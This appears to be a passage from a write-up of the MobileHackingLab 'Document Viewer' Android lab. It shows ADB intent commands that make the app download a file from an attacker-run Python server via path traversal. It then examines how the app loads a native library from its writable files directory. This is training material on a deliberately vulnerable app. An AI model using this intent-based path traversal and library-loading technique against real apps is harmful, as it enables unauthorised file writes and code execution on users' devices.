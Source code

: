We can try send the **intent** through **ADB**.
But, first set a *python server*
```bash
python3 -m http.server 8081
```
Then
```bash
adb shell am start \
-n com.mobilehackinglab.documentviewer/.MainActivity \
-a android.intent.action.VIEW \
-d "http://<ourHost>:<port>/<file>"
```
![[documentViewer3.png]]
Notice that the file `testDocumentViewer.txt` is in `/sdcard/Downloads` (Does not validate file type (.**PDF**)

After many tries, I got it
![[documentViewer4.png]]
We only had to send the coded request, in addition, **create the directories for the 200(OK) request**.
`/data/data/com.mobilehackinglab.documentviewer/files`
Then, we can see in the **device** we have the `.txt` file!
Path Traversal, check.

Now let's inspect the code for *native libraries*
```java
private final void loadProLibrary() {
    try {
        String abi = Build.SUPPORTED_ABIS[0];
        File libraryFolder = new File(getApplicationContext().getFilesDir(), "native-libraries/" + abi);
        File libraryFile = new File(libraryFolder, "libdocviewer_pro.so");
        System.load(libraryFile.getAbsolutePath());
        this.proFeaturesEnabled = true;
    } catch (UnsatisfiedLinkError e) {
        Log.e(TAG, "Unable to load library with Pro version features! (You can ignore this error if you are using the Free version)", e);
        this.proFeaturesEnabled = false;
    }
}
```

We can see that the library is loaded in `/data/user/0/com.mobilehackinglab.documentviewer/files/native-libraries/arm64-v8a/`
Due to `sandboxAppDir/files + /native-libraries/ + abi (Application Binary Interface)`.
What is `abi`?
This defines **how an application's binary code interacts with the underlying operating system and CPU**. It is basically a contract that determines:

- How arguments are passed to functions.
- How values are returned.
- How memory and registers are organized.
- What type of instructions are available.
